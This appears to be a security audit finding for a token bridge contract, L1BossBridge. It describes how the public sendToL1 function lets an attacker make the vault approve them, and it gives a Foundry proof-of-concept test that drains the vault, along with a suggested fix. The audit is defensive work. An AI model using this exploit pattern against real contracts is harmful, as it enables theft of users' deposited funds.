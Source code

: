 Because the function has a state visibility ` public `, that meaning anyone can call it with an arbitrary value for the ` message `  parameter. So an attacker can specify the ` target ` to an valut, and since the ` msg.sender ` is the ` L1BossBridge ` which is the owner of the valut, it can call the ` approveTo ` function to approve attacker's address be able to get all the funds from the valut.



### Proof of Concept

#### Test Case

```solidity
function testStealAllFundsFromValut() public {
    // user deposit the funds
    vm.startPrank(user);
    token.approve(address(tokenBridge), 1000 ether);
    tokenBridge.depositTokensToL2(user, userInL2, 1000 ether);
    vm.stopPrank();

    assertEq(token.balanceOf(address(vault)), 1000 ether);

    address attacker = makeAddr("attacker");
    // L1BossBridge call the vault.approveTo(attacker, type(uint256).max)
    bytes memory attacker_message = abi.encode(address(vault), 0, abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)));
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(attacker_message, operator.key);
    vm.startPrank(attacker);
    // attack
    tokenBridge.sendToL1(v, r, s, attacker_message);
    // withdraw
    token.transferFrom(address(vault), attacker, 1000 ether);
    vm.stopPrank();

    assertEq(token.balanceOf(address(vault)), 0 ether);
    assertEq(token.balanceOf(attacker), 1000 ether);
}
```

#### Output

```bash
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.08ms (2.78ms CPU time)

Ran 1 test suite in 202.06ms (5.08ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Impact

Anyone can force their approval to withdraw the entire vault balance.

### Recommendation

Set the ` sendToL1() ` function visibility to ` private ` to ensure that it can be only called by ` withdrawTokensToL1() ` function.
